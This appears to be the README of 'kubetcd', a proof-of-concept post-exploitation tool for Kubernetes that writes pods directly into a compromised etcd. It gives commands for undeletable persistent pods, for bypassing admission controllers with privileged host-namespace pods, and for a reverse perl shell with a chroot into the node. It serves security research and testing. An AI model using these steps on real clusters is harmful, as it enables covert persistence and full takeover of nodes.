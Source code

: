 Kubetcd 
-----

Wrapper of https://github.com/jpbetz/auger.

It automates pod deployment by writing directly into etcd. It includes multiple functions for post-exploitation of compromised etcds.

Disclaimer
-----

> [!WARNING]  
> **This is a PoC, do not use it in a production environment. Writing directly to etcd may result in inconsistencies or corrupted data, which may cause the `kube-apiserver` logic to fail to retrieve or manipulate data from etcd. Test environments with multiple nodes can be deployed with KIND**

Why?
----

The main repo, auger, provides the main features for serialising and deserialising protobuffered entries in etcd. Kubetcd is a PoC that wraps these features to approximate `etcdctl` to the regular `kubectl` client. In a scenario with a compromised etcd, `kubetcd` would attempt to use manipulated and privileged pods to gain persistence and privileged access to any/all host(s) in the cluster. **Note that `kubetcd` currently only supports pod operation.**

Requirements
------------
`Kubetcd` takes the certificates and keys to authenticate against `etcd` service from the following default paths:

- /etc/kubernetes/pki/etcd/ca.crt
- /etc/kubernetes/pki/etcd/server.crt
- /etc/kubernetes/pki/etcd/server.key (this is only readable by root)

Also, the default endpoint is set as `127.0.0.1:2379`

All previous default values could be changed through parameters.

Also, `etcdctl`, the client for `etcd`, must be installed.

```sh
sudo apt install etcd-client
```


Installation
------------

Check out and build:

```sh
git clone https://github.com/nccgroup/kubetcd
cd kubetcd
go build -buildvcs=false .
```

### Known issues

You may experience the following error:

```sh
./kubetcd: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by ./kubetcd)
./kubetcd: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./kubetcd)
```

If so, build `kubetcd` with Golang 1.19.

Refer to https://github.com/jpbetz/auger for the main auger features, which still remain. 
This README will only detail the added new features of the wrapper:

---------

Running kubetcd
------------


```sh
./kubetcd -h
```

### Get objects

``` sh
./kubetcd get pods
#or
./kubetcd get pod <name> -n <namespace>
```

### Create a new pod

`templateName` should be a running pod in the default namespace:

``` sh
./kubetcd create pod <name> -t <templateName>
```

You can overwrite a running pod just by setting the same `name` and `templateName` values.

### Change the image

``` sh
./kubetcd create pod <name> -t <templateName> --image <image>
```

### Tamper start time

``` sh
./kubetcd create pod <name> -t <templateName> --time "2000-01-31T00:00:00Z"
```

### Persistence through inconsistent data

ETCD save new pods in `/registry/pods/<namespace>/<name>` but `namespace` and `name` fields could be tampered.
Having so, this pods can be listed using `kubectl` but not deleted.

``` sh
./kubetcd create pod <name> -t <templateName> -p <randomentry>             
#Will add an entry in /registry/pods/default/<randomentry>
#Or tamperede namespace
./kubetcd create pod <name> -t <templateName> -n <namespace> --fake-ns
#Will add an entry in /registry/pods/<namespace>/<randomentry> but it will run in default namespace
```

### Deploy in a concrete node

Deploy workload in any node at will:

``` sh
./kubetcd get nodes
./kubetcd create pod <name> -t <templatename> --node <nodeName>
``` 

### Bypass AdmissionControllers

Deploy privileged pods in restricted namespaces.
This would bypass built-in AdmissionControllers like PSPs, PSAs or any other policies based on custom policies like OPA Gatekeer or Kyverno:

``` sh
./kubetcd create pod <name> -t <nameTemplate> -n <restrictedNamespace> -P 
``` 

`-P` flag will set any pod as `privileged` and will share `network`, `PID` and `IPC` namespaces with the underlying node.

### Reverse shell

Deploy privileged pods in restricted namespaces and get a remote shell: 

``` sh
./kubetcd create pod <name> -t <nameTemplate> -n <restrictedNamespace> -P -r <IP>:<PORT>
``` 

This will start a reverse `perl` shell, which is present in several images by default.
Once you have the reverse shell, change the root filesystem with `chroot /host` to get full access to the node.


TODO
----

- [ ] Add support for other binaries -not only perl- to obtain remote shell
- [ ] Add support to use templates from other namespaces than default
- [ ] Add support to create/get/delete elements out of `corev1` branch

